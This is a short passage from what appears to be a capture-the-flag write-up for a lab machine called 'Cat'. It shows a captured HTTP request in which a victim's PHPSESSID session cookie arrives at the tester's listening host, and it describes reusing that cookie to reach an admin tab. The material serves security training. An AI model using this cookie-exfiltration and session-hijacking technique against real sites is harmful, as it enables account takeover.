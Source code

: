 ![contest-any](../../img/Cat/contest-any.png)

After submitting the cat, we receive the request containing the cookie: `PHPSESSID=5mqnpm2rc8q4aj5885fdrbs1vr`.

```
GET /PHPSESSID=5mqnpm2rc8q4aj5885fdrbs1vr HTTP/1.1
Host: 10.10.14.191
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: image/avif,image/webp,image/png,image/svg+xml,image/*;q=0.8,*/*;q=0.5
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://cat.htb/
Priority: u=5, i
```

By injecting this session cookie into our browser and refreshing the page, we gain access to a new `admin` tab.

![admin](../../img/Cat/admin.png)
